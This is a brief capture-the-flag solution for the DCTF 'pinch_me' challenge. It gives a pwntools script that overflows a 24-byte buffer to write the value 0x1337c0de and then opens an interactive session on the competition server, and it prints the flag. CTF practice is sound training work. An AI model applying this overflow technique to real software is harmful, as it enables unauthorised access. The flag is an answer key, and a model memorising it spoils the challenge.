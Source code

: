 ## ***PINCH_ME***

```py
from pwn import *

binary = context.binary = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

payload  = b''
payload += b'A' * 24
payload += p64(0x1337c0de)

p.sendlineafter('?\n',payload)
p.interactive()
```
Flag : ``***dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}``***
